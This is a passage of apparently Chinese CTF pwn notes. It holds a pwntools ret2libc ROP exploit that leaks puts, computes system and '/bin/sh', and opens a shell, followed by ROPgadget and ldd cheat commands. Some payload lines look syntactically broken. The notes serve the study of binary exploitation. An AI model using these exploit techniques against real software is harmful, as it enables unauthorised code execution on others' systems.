 ```python
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
payload = b'a'*0x2c+p32(r4)+p32(0)+p32(0)+p32(0)
payload +=p32(puts_got)+p32(0)+p32(0)+p32(0)
payload +=+p32(r3)+p32(puts_plt)+p32(movcall)+p32(0)+p32(0)+p32(0)+p32(0)+
p32(0)+p32(0)+p32(0)+p32(0x0010B60)
p.sendlineafter('comment> ',payload)
libcbase = uu64(r(4)) - libc.sym['puts']
system = libcbase + libc.sym['system']
binsh = libcbase + 0x00137db0 #0x00131bec
leak('libcbase',libcbase)
sla('msg> ','s1mpl3Dec0d4r')
payload = b'a'*0x2c+p32(r4)+p32(0)+p32(0)+p32(0)
payload +=+p32(binsh)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(system)+p32(movcall
)
p.sendlineafter('comment> ',payload)
p.interactive()
```



# 小命令

```python
ROPgadget --binary xxx --string '/bin/sh'#查找字符串
ROPgadget --binary xxx --only 'pop|ret' | grep 'rdi'#查找控制寄存器的指令
```

## 找POP指令

```python
 ROPgadget --binary get_started_3dsctf_2016 --only 'pop|ret' | grep pop
```



## 寻找ret指令

```python
ROPgadget --binary xxx  --only 'ret'
```

## 找binsh字符串的地址

```python
binsh_addr = next(elf.search(b"/bin/sh"))
```

## 查看题目链接的libc版本

```python
ldd -v xxxx
```
